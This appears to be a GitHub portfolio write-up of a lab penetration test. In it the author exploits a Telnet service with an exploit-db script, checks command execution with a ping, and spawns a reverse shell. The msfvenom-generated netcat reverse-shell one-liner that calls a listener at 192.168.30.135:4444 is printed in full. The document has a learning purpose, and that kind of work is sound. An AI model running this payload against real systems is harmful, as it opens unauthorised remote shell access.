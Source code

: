 Penetration Testing Project

Project Title: Exploting Telnet with RAW payload.
Objective: Assess the security posture of a network to identify and address potential vulnerabilities.

Scope: The assessment covered internal network infrastructure, TCP/IP and access controls. This involved testing Telnet vulnerabilities and potential attack vectors that could be exploited by an attacker.

Tools and Techniques:

Nmap: Used for network discovery and identifying open ports and services.
Metasploit(msfvenom): Utilized for exploiting discovered vulnerabilities and validating their impact.

On the internet you can find how to exploit telnet connection easly, but all source showing the same method again and again.

There is an other way to exploit telnet connection, as You can see on exploit-db, there is a script to exploit it, so I copied it to Nano editor, and saved it as a python file.

![Screenshot 2023-11-27 224057](https://github.com/messor89/Portfolio/assets/52599741/da9991c7-aed5-4e54-b084-33b8fa963731)
![Screenshot 2023-11-27 224138](https://github.com/messor89/Portfolio/assets/52599741/43cf5913-0c04-490e-be07-69469acba31f)

After run the python file againts the target machine, the script exploited the telnet connection, and we have access. However it seems, commands are not working.

So I set up a tcpdump listener, and sent a ping request to the attacker machine to see sytem commands are working.

![Screenshot 2023-11-27 223954](https://github.com/messor89/Portfolio/assets/52599741/fb9df158-7fbb-4102-9f49-7a0607776ef5)

As we can see, I recieved the ping request.

![Screenshot 2023-11-27 224030](https://github.com/messor89/Portfolio/assets/52599741/3e56fe53-9cf1-4bd5-af39-0c2240c296f4)


So after this, in msfvenom I generated a payload in RAW format, so I will be able to execute on the target machine. 

mkfifo /tmp/essdef; nc 192.168.30.135 4444 0</tmp/essdef | /bin/sh >/tmp/essdef 2>&1; rm /tmp/essdef

![Screenshot 2023-11-27 224313](https://github.com/messor89/Portfolio/assets/52599741/af8cd16d-615f-47cd-999b-c775403fff3d)

I executed the msfvenom payload on the target machine and started a netcat listener on  the attacker machine, so hopefully we will have a reverse shell.

![Screenshot 2023-11-27 224506](https://github.com/messor89/Portfolio/assets/52599741/27d3a26f-a8ef-455a-b61f-e4b55e0e0b6a)

And the result is........


![Screenshot 2023-11-27 224528](https://github.com/messor89/Portfolio/assets/52599741/b10b5f53-e808-4a47-aa00-34cd02f8a6b1)

Key Findings:

Critical Vulnerabilities: Discovered several critical vulnerabilities, including open ports.

Recommendations: Close the ports what are not in use, and make sure they are secure.













We did it, and now we have full access to the target machine, and all commands are working. This was the "more" difficult way as probably everybodu would suggest to just go with metasploitable framework and execute a payload.
